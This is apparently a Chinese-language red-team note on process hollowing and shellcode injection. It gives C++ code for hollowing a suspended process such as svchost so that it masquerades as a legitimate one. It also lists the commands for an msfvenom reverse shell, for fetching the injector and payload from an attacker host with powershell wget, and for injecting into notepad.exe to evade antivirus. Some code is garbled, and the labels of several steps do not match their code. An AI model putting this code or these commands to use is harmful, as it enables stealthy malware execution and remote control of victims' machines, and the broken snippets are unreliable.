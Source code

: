 	https://www.autosectools.com/Process-Hollowing.pdf
	https://github.com/reevesrs24/EvasiveProcessHollowing
	第 1 步：创建一个处于挂起状态的新进程：
	设置了CREATE_SUSPENDED标志的CreateProcessA()
```c++
printf("Creating process\r\n");
LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();
LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();
CreateProcessA
(
                0,
                pDestCmdLine,
                0,
                0,
                0,
                CREATE_SUSPENDED,
                0,
                0,
                pStartupInfo,
                pProcessInfo
);
 
if (!pProcessInfo->hProcess)
{
                printf("Error creating process\r\n");
                return;
}
```
	第 2 步：交换其内存内容（取消映射/挖空）：
	NtUnmapViewOfSection()
	可以使用以下方法完成：
	NtQueryProcessInformation + ReadProcessMemory
	此外，可以使用单个函数轻松完成：
	ReadRemotePEB(pProcessInfo->hProcess) PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
	从 PEB 的图像地址读取 NT Headers 格式（从 PE 结构）。这是必不可少的，因为它包含与操作系统相关的信息，这些信息在进一步的代码中需要。这可以使用    ReadRemoteImage() 来完成。pImage 是指向 hProcess 句柄和 ImageBaseAddress 的指针。
```c++
PLOADED_IMAGE pImage = ReadRemoteImage
(
pProcessInfo- > hProcess,
pPEB- > ImageBaseAddress
);
```
	第 3 步：在此未映射区域中输入恶意负载：
	VirtualAllocEx :分配新内存
	WriteProcessMemory()：写入每个恶意软件部分以针对进程空间
```c++
printf("Unmapping destination section\r\n");
HMODULE hNTDLL = GetModuleHandleA("ntdll");                                                                                                                                  
FARPROC fpNtUnmapViewOfSection = GetProcAddress  
(
            hNTDLL,                                                                                             
            "NtUnmapViewOfSection"                                      
);
 
_NtUnmapViewOfSection NtUnmapViewOfSection =
(_NtUnmapViewOfSection)fpNtUnmapViewOfSection;   
 
DWORD dwResult = NtUnmapViewOfSection
(
            pProcessInfo->hProcess,
            pPEB->ImageBaseAddress
);
```
	第 4 步：将 EAX 设置为入口点：
	设置线程上下文（）
```c++
for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
{
            if (!pSourceImage->Sections[x].PointerToRawData)
                        continue;
            PVOID pSectionDestination =          (PVOID)((DWORD)pPEB->ImageBaseAddress + pSourceImage->Sections[x].VirtualAddress);
}
```
		第 5 步：启动挂起的线程：
		恢复线程（）
```c++
for (DWORD y = 0; y < dwEntryCount; y++)
{
            dwOffset += sizeof(BASE_RELOCATION_ENTRY);
            if (pBlocks[y].Type == 0)
                        continue;
            DWORD dwFieldAddress = pBlockheader->PageAddress + pBlocks[y].Offset;
            DWORD dwBuffer = 0;
            ReadProcessMemory
            (
                        pProcessInfo->hProcess,
                        (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                        &dwBuffer,
                        sizeof(DWORD),
                        0
            );
            dwBuffer += dwDelta;
            BOOL bSuccess = WriteProcessMemory
            (
                        pProcessInfo->hProcess,
                        (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                        &dwBuffer,
                        sizeof(DWORD),
                        0
            );
}
```
	第 6 步：将 EAX 设置为入口点并恢复线程
```c++
LPCONTEXT pContext = new CONTEXT () ; 
pContext- > ContextFlags = CONTEXT_INTEGER;
GetThreadContext ( pProcessInfo- > hThread, pContext )
DWORD dwEntrypoint = ( DWORD ) pPEB- > ImageBaseAddress + pSourceHeaders- > OptionalHeader。AddressOfEntryPoint ;
pContext- > Eax = dwEntrypoint;                              //EAX设置为入口点
SetThreadContext ( pProcessInfo- > hThread, pContext )
ResumeThread ( pProcessInfo- > hThread ) //线程恢复   
```
	第 7 步：用自定义代码替换正版进程
```c++
pPath[strrchr(pPath, '\\') - pPath + 1] = 0;
strcat(pPath, "helloworld.exe");
CreateHollowedProcess("svchost",pPath);
```
	在 PoC 的第 1 部分中，编写了一个 Process Hollowing exe，其中包含一个小的 PoC 代码弹出窗口，该弹出窗口被注入到一个合法的 explorer.exe 进程中。这是一个独立的 EXE，因此，硬编码的弹出可以替换为 msfvenom shellcode，为您自己的 C2 服务器提供反向 shell。
	签入进程资源管理器后，我们看到一个新的 explorer.exe 进程已创建，其指定的进程 ID 相同，表明我们的 EXE 已使用空心技术成功伪装。

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/3.png)

	https://github.com/3xpl01tc0d3r/ProcessInjection
	该工具将原始 shellcode 作为文本文件的输入，并注入用户指定的合法进程。可以使用 Visual Studio 下载和编译发布（转到 Visual Studio->打开 .sln 文件->构建发布）
	$ msfvenom -p windows/x64/shell_reverse_tcp exitfunc=thread LHOST=192.168.0.89 LPORT=1234 -f hex

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/4.png)
  
	传到目标机器执行
	$ powershell wget 192.168.0.89/ProcessInjection.exe -O ProcessInjection.exe
	$ powershell wget 192.168.0.89/hex.txt -O hex.txt
	$ ProcessInjection.exe /t:3 /f:hex /path:"hex.txt" /ppath:"c:\windows\system32\notepad.exe"

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/5.png)

	收到shell
  
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/6.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/7.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/8.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/red/9.png)

	在进程资源管理器中，我们看到生成了一个新的 notepad.exe，其 PID 与创建新进程的 PID 相同，并且绕过了AV
